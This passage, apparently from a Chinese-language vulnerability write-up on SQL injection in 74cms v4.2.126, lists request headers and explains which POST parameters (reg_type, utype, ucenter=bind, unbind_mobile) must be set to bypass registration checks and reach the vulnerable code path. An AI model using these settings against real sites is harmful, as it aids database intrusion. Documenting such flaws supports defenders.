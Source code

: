     headers:
      Content-Type: application/x-www-form-urlencoded
      X-Requested-With: XMLHttpRequest

![](./resource/74cmsv4.2.126-前台四处sql注入/media/rId58.png)

    这里我要大概讲一下参数的问题
    post: 
    reg_type=2            // 必须为2 为了绕过一个注册判断，为1的话，会直接创建帐户，导致无法利用漏洞
    utype=2         // 判断会员类型的也必须为2 为1会直接创建一条数据，导致无法利用漏洞      
    ucenter=bind           // 必须为bind因为要靠他，获取cookie(members_uc_info)并且合并为$data数组进行利用
      unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的
